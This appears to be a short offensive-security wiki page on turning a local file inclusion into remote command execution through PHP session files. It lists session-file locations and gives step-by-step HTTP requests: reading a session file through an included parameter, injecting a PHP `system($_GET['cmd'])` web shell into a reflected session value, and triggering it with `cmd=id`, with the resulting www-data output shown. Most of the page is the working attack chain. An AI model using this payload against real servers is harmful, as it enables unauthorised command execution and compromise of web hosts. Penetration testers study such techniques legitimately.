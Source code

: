 ```yaml
---
authors: ShutdownRepo
---
```


# PHP session

When a web server wants to handle sessions, it can use PHP session cookies (`PHPSESSID`).

1. Finding where the sessions are stored.

 Examples:

 * Linux : `/var/lib/php5/sess_[PHPSESSID]`
 * Linux : `/var/lib/php/sessions/sess_[PHPSESSID]`
 * Windows : `C:\Windows\Temp\`
2. Displaying a `PHPSESSID` to see if any parameter is reflected inside.

 Example:

 * The user name for the session (from a parameter called `user`)
 * The language used by the user (from a parameter called `lang`)

 _Exemple :_

```http
GET /?user=/var/lib/php/sessions/sess_[PHPSESSID] HTTP/2

username|s:6:"tester";lang|s:7:"English";
```

3\. Inject some PHP code in the reflected parameter in the session

```http
GET /?user=<%3fphp+system($_GET['cmd'])%3b+%3f> HTTP/2
```

4\. Call the `session file`with the vulnerable parameter to trigger a command exection

```http
GET /?user=/var/lib/php/sessions/sess_[PHPSESSID]&cmd=id HTTP/2

</h2> username|s:30:"uid=33(www-data) gid=33(www-data) groups=33(www-data)
";lang|s:7:"English";
```
